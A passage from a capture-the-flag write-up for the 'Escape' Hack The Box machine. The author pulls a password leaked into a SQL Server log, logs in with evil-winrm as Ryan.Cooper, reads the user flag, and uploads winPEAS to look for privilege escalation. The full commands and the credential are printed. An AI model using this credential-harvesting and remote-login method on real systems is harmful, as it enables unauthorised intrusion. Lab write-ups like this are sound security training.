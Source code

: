 ```powershell
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.72 spid51      Attempting to load library 'xpstar.dll' into memory. This is an informational message only. No user action is required.
2022-11-18 13:43:07.76 spid51      Using 'xpstar.dll' version '2019.150.2000' to execute extended stored procedure 'xp_sqlagent_is_starting'. This is an informational message only; no user action is required.
2022-11-18 13:43:08.24 spid51      Changed database context to 'master'.
2022-11-18 13:43:08.24 spid51      Changed language setting to us_english.
2022-11-18 13:43:09.29 spid9s      SQL Server is terminating in response to a 'stop' request from Service Control Manager. This is an informational message only. No user action is required.
2022-11-18 13:43:09.31 spid9s      .NET Framework runtime has been stopped.
2022-11-18 13:43:09.43 spid9s      SQL Trace was stopped due to server shutdown. Trace ID = '1'. This is an informational message only; no user action is required.
```

We can see a failed login attempt from `sequel.htb\Ryan.Cooper`. He tired again but put password instead of his login name to the password field and it ended up in the log. We now posses a new set of credentials:

`Ryan.Cooper:NuclearMosquito3`

Let's see if we can login.

```powershell
➜  Escape evil-winrm -i sequel.htb -u Ryan.Cooper -p NuclearMosquito3

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> cat ..\Desktop\user.txt
9998ebbbb***********************
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents>
```

We indeed can and now we can finally read the `user.txt` flag.

## Privilege escalation - Shell as Ryan.Cooper

### Post-Exploitation Enumeration

Enumerating the filesystem did not show anything interesting straight away so I decided to upload and run `WinPEAS`.

```powershell
*Evil-WinRM* PS C:\programdata> upload /home/qurius/htb/boxes/medium/owned/Escape/winpeas.exe
   
Info: Uploading /home/qurius/htb/boxes/medium/owned/Escape/winpeas.exe to C:\programdata\winpeas.exe
   
Data: 2704724 bytes of 2704724 bytes copied
  
Info: Upload successful!
*Evil-WinRM* PS C:\programdata> .\winpeas.exe
.
.
.
ÉÍÍÍÍÍÍÍÍÍÍ¹ Enumerating machine and user certificate files                                                                                                                                  

```